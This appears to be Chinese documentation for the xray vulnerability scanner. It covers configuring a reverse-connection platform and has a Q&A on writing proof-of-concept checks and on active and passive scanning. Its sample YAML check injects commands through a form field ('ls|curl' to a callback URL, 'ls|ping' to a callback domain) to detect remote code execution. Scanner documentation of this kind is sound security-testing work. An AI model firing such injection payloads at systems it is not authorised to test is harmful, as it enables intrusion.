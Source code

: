 # 反连平台的配置与使用
[如何部署xray反连平台](../../scenario/reverse.md)
## 使用反连平台的POC
```yaml
name: poc-yaml-test
manual: true
transport: http
set:
    reverse: newReverse()
    reverseURL: reverse.url
    reverseDomain: reverse.domain
rules:
    // 使用常规反连
    r0:
        request:
            cache: true
            method: POST
            path: /run
            body: test=ls|curl+{{reverseURL}}
        expression: reverse.wait(5)
    // 使用dns反连
    r1:
        request:
            cache: true
            method: POST
            path: /run
            body: test=ls|ping+reverseDomain
        expression: reverse.wait(5)
expression: r0() || r1()
detail:
    author: test
    links:
        - http://test.com
```

## Q&A
**Q：能出个gui版本吗？**
A：目前我们的内部师傅已经编写了一个图形化界面辅助工具，可以试用一下，未来我们将会有一个正式的GUI版本
项目地址：[https://github.com/4ra1n/super-xray](https://github.com/4ra1n/super-xray)
教学视频：[https://www.bilibili.com/video/BV1p8411j7vX/](https://www.bilibili.com/video/BV1p8411j7vX/)

**Q：可否基于现有公开漏洞库（如www.exploit-db.com或www.seebug.org）在CT STACK社区做一个实时xray poc悬赏列表，方便用户知道哪些漏洞的poc可以提交，另外如何快速，隐蔽，高效地测试对目标的最优扫描参数，从而优化扫描速度，兼顾速度与隐蔽性**
A：在后续的版本中，xray将会优化插件的筛选，到时可以查看到我们当前有的编号漏洞，可以按照产品分类展示，方便提交者可以确认已经存在了哪些漏洞，还有哪些可以提交，同时我们也上线了在线poc生成器，可以通过表单的填写自动生成poc，同时可以直接进行poc查重，不浪费时间。同时后面我们也会有需求列表以活动的形式上线，师傅们可以多多关注官网
A：先对目标进行信息收集，然后针对性启动插件进行扫描
poc生成器：[https://poc.xray.cool](https://poc.xray.cool)

**Q：想了解如何提升编写poc的技术，以及怎么样的poc会更容易通过审核呢？**
A：多多看前面四期的视频，以及关注官方文档的更新吧，基本上所有的技巧都在里面了。并且现在还有poc模版以及poc生成器，所以说基本上了解一个漏洞是如何被检测的，同时检测规则写的严格一些，就能写出一个好的poc。
A：同时在选择编写什么漏洞的poc时，可以先关注一下近五年危险等级较高的漏洞，这类漏洞的poc会有较多的奖励。

**Q：可不可以分享x-ray更多实际应用场景和小技巧**
A：如果有长期稳定的服务器，非常建议去租一个域名，随便选择一个便宜的就好，然后在这个服务器上按照反连平台的配置文章配置好反连平台，这样才能完整的体验全部的检测功能
A：在进行测试的时候，不建议在xray的上层再添加burp的代理，因为burp会对数据包再做一些事情，可能导致漏洞验证失败。例如会自动修改headers中的connection的内容，需要在options中勾选掉对应选项才可以。
A：在没有扫描到漏洞的时候，是不会生成报告的
A：还有一些常见问题将整理在另一个文档中，后续会放置在官网

**Q：与其他工具的联动**
A：xray在漏洞扫描方面主要存在两个扫描方式，主动扫描与被动扫描，当指定主动扫描的时候，xray会主动向目标发送payload进行探测，最具代表性的的就是--url命令，xray会主动访问这个地址，然后直接对这个地址发送规则内的所有payload，如果有命中，则证明探测出漏洞。
A：当指定被动扫描的时候，xray会开启一个端口接收http流量，xray在拿到这些流量后，会将自身的payload与现有的流量按照一定的规则进行重组并发送出去，从而根据返回进行判断时候存在漏洞。
A：所有在了解了这两点之后，我们就能大概知道什么样的工具可以与xray进行联动，比如你想要查看xray发送的包，进行调试，就可以将抓包工具设置为xray的上层代理，在抓包工具中查看xray的行为
A：或者想要让xray对某个网站进行全量的扫描，就可以将xray的被动代理模式开启，然后：

1. 将xray作为浏览器的上层代理，自己点击网站功能点来触发网站的功能，从而将流量喂给xray进行扫描
2. 将xray作为爬虫的上层代理，比如rad，使用爬虫代替人进行点击。但对于单个网站的时候，如果要进行细致的扫描，就还是不建议这样操作，因为爬虫没有办法处理某些需要某些前置条件才能触发的功能点，就比如需要 点击A->输入B->点击C 才能出现功能点D，这种情况，爬虫可能就无法顾及到，只有人来操作才能保证所有的功能点都被触发。

**Q：xray是怎么实现在扫描过程中减少对业务的影响**
A：xray中所有的payload都是无害化的，全部都遵循了编写poc中的无害化原则，不会指定数据库读取，木马上传，dos等行为。如果存在上传行为，也一定是对文件名做好随机处理，文件内容仅进行计算，且会尽最大可能的将上传的文件删除掉。
A：sql注入会让数据库执行md5计算，命令执行则是执行expr等。同时可以限制发送的方法，以防造成数据污染。详情可以参考poc编写指南第四期的内容，参考其中危害性的部分
[POC编写指南第四期](/#/guide/course/phaseIV?id=危害性)

**Q：支持外部dnslog**
A：我们有计划开放一个自己的反连平台，到时候xray会自动支持

**Q：会有提供接口的打算吗？用编程语言写脚本比yml更方便，可拓展性更强**
A：我们在将要发布xray2.0版本中，将支持编写插件脚本，动态加载到xray中运行，等版本发布时，会同步更新上对应的教程。

